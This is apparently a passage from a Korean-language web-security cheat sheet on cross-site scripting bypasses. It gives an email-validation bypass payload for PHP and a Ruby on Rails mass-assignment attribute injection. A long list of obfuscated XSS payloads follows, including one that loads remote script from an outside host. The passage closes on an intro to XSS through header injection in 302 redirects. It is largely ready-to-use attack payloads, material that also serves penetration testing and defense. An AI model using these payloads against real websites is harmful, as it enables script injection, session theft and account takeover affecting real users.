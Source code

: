 ### PHP FILTER\_VALIDATE\_EMAIL 플래그 우회
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### 루비 온 레일 우회

**RoR 대량 할당**으로 인해 따옴표가 HTML에 삽입되고 그런 다음 따옴표 제한이 우회되어 태그 내에 추가 필드 (onfocus)를 추가할 수 있습니다.\
예시 폼 ([이 보고서에서](https://hackerone.com/reports/709336))에서 페이로드를 보내면:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
다음과 같이 "Key","Value" 쌍이 에코됩니다:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
### 특별한 조합
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert('1'&#41</x>
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<svg><animate onbegin=alert() attributeName=x></svg>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);">
(function(x){this[x+`ert`](1)})`al`
window[`al`+/e/[`ex`+`ec`]`e`+`rt`](2)
document['default'+'View'][`\u0061lert`](3)
```
### 302 응답에서 헤더 주입을 통한 XSS

만약 **302 Redirect 응답에서 헤더를 주입**할 수 있다면, **브라우저가 임의의 JavaScript를 실행하도록** 시도할 수 있습니다. 이는 현대 브라우저가 HTTP 응답 상태 코드가 302인 경우 HTTP 응답 본문을 해석하지 않기 때문에 **쉽지 않습니다**. 따라서 단순히 크로스 사이트 스크립팅 페이로드는 쓸모가 없습니다.
